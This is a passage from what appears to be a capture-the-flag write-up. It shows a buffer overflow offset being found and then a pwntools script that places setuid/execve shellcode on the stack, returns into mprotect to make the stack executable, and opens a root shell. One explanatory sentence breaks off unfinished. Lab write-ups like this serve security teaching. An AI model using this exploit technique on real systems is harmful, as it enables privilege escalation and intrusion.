 

I can take that back to my box and find the offset:



    root@kali# msf-pattern_offset -q 0x63413563
    [*] Exact match at offset 76



#### Stage 3 - Shell

My first instinct was to use a ret2libc attack. That failed, and I'll
cover it in [Beyond Root](#beyond-root).

My new strategy is to go what I believe the author is trying to force me
to do, which is to get a shell with two steps:

-   Make the stack executable;
-   Jump to the start of the vulnerable buffer where I'll have
    shellcode.

To accomplish that, I'll overwrite

The payload will start with the shellcode to run a shell (I'll include a
call to `setuid` just in case the binary is dropping priv), followed by
junk to fill out 76 bytes. Then I'll include the return address with the
address of `mprotect`. The next word will be the return address for that
function, which will be the buffer. Then I'll have the three arguments
for `mprotect`.

Since the program is already waiting for a filename to read in `debug`,
I just need to write this payload to a file, and then pass that filename
to the program, and go interactive:



    ## Stage 3 - Shell
    mprotect = 0xb7efcd50
    size = stack_end - stack_start
    shellcode = asm(shellcraft.setuid(0) + shellcraft.execve('/bin/sh'))

    payload =  shellcode
    payload += b"A" * (76 - len(shellcode))
    payload += p32(mprotect)
    payload += p32(buff_addr)
    payload += p32(stack_start)
    payload += p32(size)
    payload += p32(7)
    log.info(f'Writing Stage 3 exploit to {fn}')
    sshConn.upload_data(payload, fn)

    goodluck.sendline(fn)
    log.info(f'Cleaning up {fn}')
    sshConn.unlink(fn)
    goodluck.interactive(prompt='')

